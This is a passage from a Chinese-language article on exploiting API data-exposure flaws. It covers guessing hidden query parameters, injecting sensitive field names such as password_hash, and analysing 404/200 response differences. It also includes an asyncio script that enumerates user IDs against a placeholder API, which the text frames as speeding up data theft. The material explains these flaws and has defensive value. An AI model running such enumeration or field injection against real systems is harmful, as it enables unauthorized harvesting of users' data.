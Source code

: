 ### 6. 组合查询漏洞
```http
GET /api/search?q=test&include_inactive=true
```
攻击者通过猜测参数组合（如`include_deleted`、`show_all`等）获取本应隐藏的数据。常见于未严格限制查询参数的API实现。

## 三、高级利用技术

### 1. 并行请求加速攻击
使用Python异步请求库批量获取数据：
```python
import aiohttp
import asyncio

async def fetch_data(session, id):
    async with session.get(f'https://api.example.com/users/{id}') as resp:
        return await resp.json()

async def main():
    async with aiohttp.ClientSession() as session:
        tasks = [fetch_data(session, i) for i in range(1000,2000)]
        results = await asyncio.gather(*tasks)
        # 数据解析与存储...

asyncio.run(main())
```
通过200个并发连接可在1分钟内完成10万次请求，显著提升数据窃取效率。

### 2. 响应差异分析
```http
GET /api/document/123
HTTP/2 404 Not Found
{"error": "Document not found"}

GET /api/document/124
HTTP/2 200 OK
{
  "id": 124,
  "content": "机密数据..."
}
```
攻击者通过统计404与200响应的比例，推断有效数据分布规律。结合机器学习算法可自动识别有效数据模式。

### 3. 字段注入攻击
```http
GET /api/user?fields=id,name,password_hash
```
部分API支持`fields`参数控制返回字段，攻击者可尝试注入敏感字段名。若后端未做白名单校验，可能返回数据库原始字段。

## 四、真实案例分析

